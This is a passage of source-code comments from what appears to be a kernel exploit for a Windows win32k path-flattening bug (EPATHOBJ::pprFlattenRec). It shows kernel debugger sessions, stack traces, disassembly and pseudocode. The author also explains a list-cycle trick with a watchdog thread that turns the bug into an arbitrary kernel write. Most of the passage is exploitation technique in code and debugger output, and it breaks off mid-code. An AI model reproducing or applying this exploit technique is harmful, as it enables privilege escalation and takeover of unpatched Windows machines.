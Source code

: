 //       }
//
//   kd&gt; ba e 1 win32k!EPATHOBJ::pprFlattenRec+28 "j (dwo(ebp+8) &lt; dwo(nt!MmUserProbeAddress)) ''; 'gc'"
//   kd&gt; g
//   win32k!EPATHOBJ::pprFlattenRec+0x28:
//   95c922c2 33c0            xor     eax,eax
//   kd&gt; dd ebp+8 L1
//   a3633be0  00130000
//
//   The ppr object is in userspace! If we peek at it:
//
//   kd&gt; dd poi(ebp+8)
//   00130000  41414141 42424242 00000010 cccccccc
//   00130010  00000000 00000000 00000000 00000000
//   00130020  00000000 00000000 00000000 00000000
//   00130030  00000000 00000000 00000000 00000000
//   00130040  00000000 00000000 00000000 00000000
//   00130050  00000000 00000000 00000000 00000000
//   00130060  00000000 00000000 00000000 00000000
//   00130070  00000000 00000000 00000000 00000000
//
//   There's the next and prev pointer.
//
//   kd&gt; kvn
//    # ChildEBP RetAddr  Args to Child
//   00 a3633bd8 95c9253a 00130000 002bfea0 95c101ce win32k!EPATHOBJ::pprFlattenRec+0x28 (FPO: [Non-Fpo])
//   01 a3633be4 95c101ce 00000001 00000294 fe763360 win32k!EPATHOBJ::bFlatten+0x23 (FPO: [0,0,4])
//   02 a3633c28 829ab173 0701062d 002bfea8 7721a364 win32k!NtGdiFlattenPath+0x50 (FPO: [Non-Fpo])
//   03 a3633c28 7721a364 0701062d 002bfea8 7721a364 nt!KiFastCallEntry+0x163 (FPO: [0,3] TrapFrame @ a3633c34)
//
//   The question is how to get PATHALLOC() to succeed under memory pressure so we
//   can make this exploitable? I'm quite proud of this list cycle trick,
//   here's how to turn it into an arbitrary write.
//
//   First, we create a watchdog thread that will patch the list atomically
//   when we're ready. This is needed because we can't exploit the bug while
//   HeavyAllocPool is failing, because of the early exit in pprFlattenRec:
//
//   .text:BFA122B8                 call newpathrec              ; EPATHOBJ::newpathrec(_PATHRECORD * *,ulong *,ulong)
//   .text:BFA122BD                 cmp     eax, 1               ; Check for failure
//   .text:BFA122C0                 jz      short continue
//   .text:BFA122C2                 xor     eax, eax             ; Exit early
//   .text:BFA122C4                 jmp     early_exit
//
//   So we create a list node like this:
//
//   PathRecord-&gt;Next    = PathRecord;
//   PathRecord-&gt;Flags   = 0;
//
//   Then EPATHOBJ::bFlatten() spins forever doing nothing:
//
//   BOOL __thiscall EPATHOBJ::bFlatten(EPATHOBJ *this)
//   {
//       /* ... */
//
//       for ( ppr = ppath-&gt;pprfirst; ppr; ppr = ppr-&gt;pprnext )
//       {
//         if ( ppr-&gt;flags &amp; PD_BEZIER )
//         {
//           ppr = EPATHOBJ::pprFlattenRec(pathobj, ppr);